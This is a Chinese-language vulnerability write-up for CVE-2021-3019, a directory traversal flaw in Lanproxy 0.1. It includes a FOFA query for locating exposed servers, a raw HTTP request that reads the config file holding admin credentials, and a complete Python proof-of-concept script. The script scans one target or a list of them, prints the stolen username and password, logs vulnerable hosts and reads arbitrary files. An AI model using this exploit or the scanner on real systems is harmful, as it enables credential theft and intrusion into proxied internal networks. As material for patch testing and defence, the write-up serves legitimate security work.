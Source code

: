 # Lanproxy 目录遍历漏洞 CVE-2021-3019

## 漏洞描述

Lanproxy是一个将局域网个人电脑、服务器代理到公网的内网穿透工具，支持tcp流量转发，可支持任何tcp上层协议（访问内网网站、本地支付接口调试、ssh访问、远程桌面等等）本次Lanproxy 路径遍历漏洞 (CVE-2021-3019)通过../绕过读取任意文件。该漏洞允许目录遍历读取/../conf/config.properties来获取到内部网连接的凭据。

## 漏洞影响

```
Lanproxy 0.1
```

## FOFA

```
header= "Server: LPS-0.1"
```

## 环境搭建

https://github.com/ffay/lanproxy/

## 漏洞复现

打开登录页面如下

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101916095.png)



使用Burp抓包发送如下请求



```html
GET /../conf/config.properties HTTP/1.1
Host: xxx.xxx.xxx.xxx
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101916819.png)



成功在配置文件中读取 账号密码



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101916920.png)



试着读取其他敏感文件



![4](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101917016.png)

![5](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101917019.png)

## 漏洞POC



[Github:CVE-2021-3019](https://github.com/FanqXu/CVE-2021-3019/)



```python
#!/usr/bin/env python3
# -*- encoding: utf-8 -*-
'''
@File    :   urllib.py
@Time    :   2021/01/10 21:59:32
@Author  :   _0xf4n9x_
@Version :   1.0
@Contact :   fanq.xu@gmail.com
@Desc    :   None
'''


import sys
import argparse
import os
from urllib import request
from urllib import error

banner = """
 ######  ##     ## ########     #######    #####    #######    ##       #######    #####    ##   #######  
##    ## ##     ## ##          ##     ##  ##   ##  ##     ## ####      ##     ##  ##   ## ####  ##     ## 
##       ##     ## ##                 ## ##     ##        ##   ##             ## ##     ##  ##  ##     ## 
##       ##     ## ###### ##### #######  ##     ##  #######    ## ##### #######  ##     ##  ##   ######## 
##        ##   ##  ##          ##        ##     ## ##          ##             ## ##     ##  ##         ## 
##    ##   ## ##   ##          ##         ##   ##  ##          ##      ##     ##  ##   ##   ##  ##     ## 
 ######     ###    ########    #########   #####   ######### ######     #######    #####  ###### #######  
                                                                                Author: _0xf4n9x_"""

headers = {
    'User-Agent': "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/82.0.4080.0 Safari/537.36 Edg/82.0.453.0"}


def readConf(url):
    """
    默认读取配置文件，并通过能否读取配置文件来判断是否存在漏洞
    """
    config = [
        'config.server.bind',
        'config.server.port',
        'config.admin.username',
        'config.admin.password'
    ]
    path = "/../conf/config.properties"
    confUrl = url + path
    r = request.Request(confUrl, headers=headers)
    try:
        with request.urlopen(r, timeout=10) as resp:
            confContent = resp.read().decode('utf-8')
            for i in config:
                if i not in confContent:
                    print("[-] " + url + " is not vulnerable")
                    return 'Bye :('
            print("[+] " + url + " is vulnerable! :)")
            return confContent
    except ConnectionResetError:
        print("[-] " + url + " Connection reset by peer")
    except error.HTTPError as e:
        print("[-] " + url + e.code + e.reason)
    except error.URLError as e:
        print("[-] " + url + e.code + e.reason)
    except:
        print("[-] " + url + " is not vulnerable")
    return 0


def readOtherFile(url, path):
    """
    读取任意其他文件
    """
    jumpSym = "/../../../../../../../../.."
    fullUrl = url + jumpSym + path
    r = request.Request(fullUrl, headers=headers)
    with request.urlopen(r, timeout=10) as resp:
        fileContent = resp.read().decode('utf-8')
        print(fileContent)


def run(url, path="/../conf/config.properties"):
    if os.path.isfile(url) == False:
        # if 'http' not in url:
        #     url = 'http://' + url
        url = 'http://' + url.replace('http://', '').replace('/', '')
        if path == "/../conf/config.properties":
            print(readConf(url))
        else:
            if readConf(url) not in [0, 'Bye :(']:
                readOtherFile(url, path)
    else:
        urls = []
        with open(url) as target:
            urls = target.read().splitlines()
            for url in urls:
                # if 'http' not in url:
                #     url = 'http://' + url
                url = 'http://' + url.replace('http://', '').replace('/', '')
                if readConf(url) not in [0, 'Bye :(']:
                    with open("success.txt", "a+") as f:
                        f.write(url + "\n")
            f.close()


def main():
    parser = argparse.ArgumentParser(
        description="CVE-2021-3019 lanproxy arbitrary file read vulnerability detection POC")
    parser.add_argument('-u', '--url', type=str,
                        help="test a single website")
    parser.add_argument('-r', '--read', type=str,
                        help="this parameter is followed by the file name to be read, the configuration file is read by default")
    parser.add_argument('-f', '--file', type=str,
                        help="perform vulnerability checks on multiple websites in a file, and the vulnerable websites will be output to the success.txt file")
    args = parser.parse_args()

    if len(sys.argv) <= 1:
        parser.print_help()
    elif sys.argv[1] in ['-u', '--url']:
        if len(sys.argv) == 3:
            run(args.url)
        elif len(sys.argv) == 5:
            run(args.url, args.read)
    elif sys.argv[1] in ['-f', '--file']:
        run(args.file)


if __name__ == "__main__":
    print(banner)
    main()
```



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101917292.png)



## 